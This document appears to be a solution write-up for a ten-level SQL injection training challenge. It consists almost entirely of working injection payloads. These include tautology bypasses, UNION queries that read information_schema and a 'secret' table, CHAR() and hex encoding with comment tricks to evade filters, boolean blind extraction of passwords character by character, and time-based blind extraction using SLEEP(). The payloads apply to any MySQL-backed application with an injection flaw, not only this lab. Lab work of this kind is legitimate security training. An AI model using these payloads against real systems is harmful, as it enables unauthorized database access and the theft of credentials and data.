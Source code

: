 'X' is what you need to replace.

**LEVEL 1**

```
SELECT * FROM users WHERE id = 12;
```

**LEVEL 2**

```
' or id = 9 #
```

**LEVEL 3**

```
' or id = 13 #
```

**LEVEL 4**

```
' UNION SELECT column_name, '-', '-' FROM information_schema.columns WHERE table_name='secret' #

' UNION SELECT f1, f2, ggg FROM secret WHERE ggg = 'abc' #
```

**LEVEL 5**

```
' UNION SELECT column_name, '-', '-' FROM information_schema.columns WHERE table_name='secret' #

' UNION SELECT dfgfddfgdfdfdf, dfgdfgfdg, '-' FROM secret #
```

**LEVEL 6**

CHAR(103,111,100) => 'god'

```
-1 or login = CHAR(103,111,100)
```

0x676f64 => in HEX (UTF-8: "god")

```
-1 or login = 0x676f64
```

**LEVEL 7**

```
-1/**/OR/**/login/**/REGEXP/**/0x67656e746f6f/**/
```

**LEVEL 8**

```
-1 OR login = 'fast'
```

To find length of the password:

```
-1 OR (login = 'fast' AND LENGTH(pass) = X)
```

To find value of the password:

```
-1 OR (login = 'fast' AND SUBSTRING(pass, X, 1) = 'X')
```

**LEVEL 9**

To find length of the login:

```
-1 OR (id = XX AND LENGTH(login) = X)
```

To find value of the login (way 1):

```
-1 OR (id = XX AND login = 'XXX')
```

To find value of the login (way 2):

```
-1 OR (id = XX AND SUBSTRING(login, X, 1) = 'X')
```

**LEVEL 10**

Prove that this is Time Based SQL injection:

```
1 AND SLEEP(5)
```

Find table name (and length of it's name):

```
IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1)) = X, SLEEP(5), 0)

IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1), X, 1) = 'X', SLEEP(5), 0)
```

Find number of columns and their names:

```
IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name = 'davidblayne' AND table_schema=database()) = X, SLEEP(5), 0)

IF(LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='davidblayne' AND table_schema=database() LIMIT X, 1)) = X, SLEEP(5), 0)

IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='davidblayne' LIMIT X, 1), X, 1) = 'X', SLEEP(5), 0)
```

Find value in the column:

```
IF(SUBSTRING((SELECT morkovka FROM davidblayne LIMIT 1), X, 1) = 'X', SLEEP(5), 0)
```

